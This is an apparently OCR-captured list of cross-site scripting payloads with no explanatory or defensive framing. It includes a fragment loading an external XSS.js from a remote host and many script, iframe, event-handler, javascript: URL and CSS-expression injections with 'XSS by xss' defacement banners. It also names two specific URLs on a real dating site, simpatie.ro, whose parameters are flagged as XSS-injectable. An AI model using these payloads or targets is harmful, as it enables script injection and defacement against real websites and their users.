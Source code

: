 src="http://www.site.com/XSS.js"&gt;&lt;/script&gt;

&lt;script&gt;alert("XSS by \nxss")&lt;/script&gt;&lt;marquee&gt;&lt;h1&gt;XSS by xss&lt;/h1&gt;&lt;/marquee&gt;


"&gt;&lt;script&gt;alert("XSS by \nxss")&lt;/script&gt;&gt;&lt;marquee&gt;&lt;h1&gt;XSS by xss&lt;/h1&gt;&lt;/marquee&gt;

'"&gt;&lt;/title&gt;&lt;script&gt;alert("XSS by \nxss")&lt;/script&gt;&gt;&lt;marquee&gt;&lt;h1&gt;XSS by xss&lt;/h1&gt;&lt;/marquee&gt;

&lt;img """&gt;&lt;script&gt;alert("XSS by \nxss")&lt;/script&gt;&lt;marquee&gt;&lt;h1&gt;XSS by xss&lt;/h1&gt;&lt;/marquee&gt;

&lt;script&gt;alert(1337)&lt;/script&gt;&lt;marquee&gt;&lt;h1&gt;XSS by xss&lt;/h1&gt;&lt;/marquee&gt;

"&gt;&lt;script&gt;alert(1337)&lt;/script&gt;"&gt;&lt;script&gt;alert("XSS by \nxss&lt;/h1&gt;&lt;/marquee&gt;

'"&gt;&lt;/title&gt;&lt;script&gt;alert(1337)&lt;/script&gt;&gt;&lt;marquee&gt;&lt;h1&gt;XSS by xss&lt;/h1&gt;&lt;/marquee&gt;

&lt;iframe src="javascript:alert('XSS by \nxss');"&gt;&lt;/iframe&gt;&lt;marquee&gt;&lt;h1&gt;XSS by xss&lt;/h1&gt;&lt;/marquee&gt;


http://www.simpatie.ro/index.php?page=friends&member=781339&javafunctionname=Pageclick&javapgno=2 javapgno=2 ??XSS??

http://www.simpatie.ro/index.php?page=top_movies&cat=13&p=2 p=2 ??XSS??

&lt;SCRIPT&gt; alert(“XSS”); &lt;/SCRIPT&gt;

&lt;BODY ONLOAD=alert("XSS")&gt;

&lt;TD BACKGROUND="javascript:alert('XSS')"&gt;

&apos;&apos;;!--&quot;&lt;XSS&gt;=&amp;{()}

&lt;SCRIPT&gt;alert(&apos;XSS&apos;)&lt;/SCRIPT&gt;

&lt;BASE HREF=&quot;javascript:alert(&apos;XSS&apos;);//&quot;&gt;

&lt;BGSOUND SRC=&quot;javascript:alert(&apos;XSS&apos;);&quot;&gt;

&lt;BODY BACKGROUND=&quot;javascript:alert(&apos;XSS&apos;);&quot;&gt;

&lt;BODY ONLOAD=alert(&apos;XSS&apos;)&gt;

&lt;DIV STYLE=&quot;background-image: url(javascript:alert(&apos;XSS&apos;))&quot;&gt;

&lt;DIV STYLE=&quot;background-image: url(&amp;#1;javascript:alert(&apos;XSS&apos;))&quot;&gt;

&lt;DIV STYLE=&quot;width: expression(alert(&apos;XSS&apos;));&quot;&gt;

&lt;FRAMESET&gt;&lt;FRAME SRC=&quot;javascript:alert(&apos;XSS&apos;);&quot;&gt;&lt;/FRAMESET&gt;

&lt;IFRAME SRC=&quot;javascript:alert(&apos;XSS&apos;);&quot;&gt;&lt;/IFRAME&gt;

&lt;INPUT TYPE=&quot;IMAGE&quot; SRC=&quot;javascript:alert(&apos;XSS&apos;);&quot;&gt;

&lt;IMG SRC=&quot;javascript:alert(&apos;XSS&apos;);&quot;&gt;
